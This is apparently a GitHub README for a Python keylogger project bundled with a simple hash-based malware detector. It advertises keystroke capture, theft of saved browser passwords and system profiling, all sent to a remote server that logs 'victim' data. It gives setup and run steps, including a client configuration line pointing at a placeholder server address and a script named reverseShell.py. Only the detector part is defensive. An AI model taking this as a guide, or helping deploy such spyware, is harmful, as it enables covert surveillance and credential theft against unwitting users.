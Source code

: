 # Keylogger Project And Simple Malware Detector

This project implements a simple keylogger that captures keystrokes from a client machine and sends them to a server for logging purposes. It also includes features to gather browser data and system information.

## Features

- **Keylogging:** Captures all keystrokes made on the client machine.
- **Network Communication:** Sends captured keystrokes over the network to a remote server.
- **Logging:** Logs keystrokes into a text file on the server.
- **Browser Data Theft:** Gathers saved passwords from browsers like Chrome, Edge, and Firefox.
- **System Information Gathering:** Collects host name, IP addresses, OS details, processor info, disk usage, and memory statistics.

### Malware Detector

The malware detector script analyzes files extracted from a specified archive. It calculates cryptographic hashes of files using various hashing algorithms (MD5, SHA-1, SHA-224, SHA-256, SHA3-384, SHA3-512) and compares them against a list of known malicious hashes. If a match is found, it identifies the file as potentially malicious.

## Requirements

- Python 3.x
- `pynput` library (for capturing keystrokes)
- `socket` library (for network communication)
- `os` module (for operating system related functions)
- `sqlite3` module (for accessing SQLite databases)
- `requests` library (for making HTTP requests)
- `json` module (for JSON data handling)
- `psutil` library (for system and process utilities)
- `platform` module (for retrieving system information)
- `pathlib` module (for handling file paths and directories)
- `shutil` module (for unpacking archives)
- `rarfile` library (optional, for handling RAR archives)
- `hashlib` module (for calculating file hashes using various algorithms)

## Installation and Setup

1. **Clone the repository:**

    ```bash
    git clone https://github.com/Oxshady/catcher--_-.git
    cd keylogger
    ```

2. **Install dependencies:**

Ensure you have the following installed and configured in your Python environment:

- **Python 3.x**
- **pynput** library (for capturing keystrokes)
    ```bash
    pip install pynput
    ```

- **socket** 
    - This is included in Python's standard library, no separate installation required.

- **os** 
    - This is part of Python's standard library.

- **sqlite3**
    - This is part of Python's standard library.

- **requests** 
    ```bash
    pip install requests
    ```

- **json** 
    - This is part of Python's standard library.

- **psutil** 
    ```bash
    pip install psutil
    ```

- **platform** 
    - This is part of Python's standard library.

- **pathlib** 
    - This is part of Python's standard library.

- **shutil** 
    - This is part of Python's standard library.

- **rarfile**
    ```bash
    pip install rarfile
    ```

- **hashlib**
    - This is part of Python's standard library.

## Usage

### Setting up the Server

1. **Run the server script:**

    ```bash
    python server.py
    ```

    This script starts the server, listens for incoming connections, and logs keystrokes received from clients into a file (`./victim_data.txt`).

### Running the Keylogger Client

1. **Configure the Keylogger Client:**

    Modify `client.py` with the IP address and port of your server:

    ```python
    ke = Keylogger("server_ip", 9999)  # Replace with your server's IP and port
    ```

2. **Run the keylogger client script:**

    ```bash
    python reverseShell.py
    ```

    This script connects to the specified server and starts capturing keystrokes. It also gathers browser data and system information, sending all collected data to the server for logging.

## Troubleshooting

- **Connection Issues:** Ensure the server and client are running on the same network or have proper network access.
- **File Permissions:** Ensure the server has write permissions for the `./victim_data.txt` file in the project directory.

## Acknowledgments

- Thanks to the developers of `pynput`, `socket`, `sqlite3`, `requests`, `psutil`, `platform`, `pathlib`, `shutil`, `rarfile`, and `hashlib` libraries/modules for their contributions.

---

Ensure to adjust the IP address, port number, and paths in the scripts (`reverseShell.py` and `server.py`) according to your setup. This README provides a comprehensive overview of your keylogger project, including how it captures browser data, system information, and its integration with the malware detector functionality.
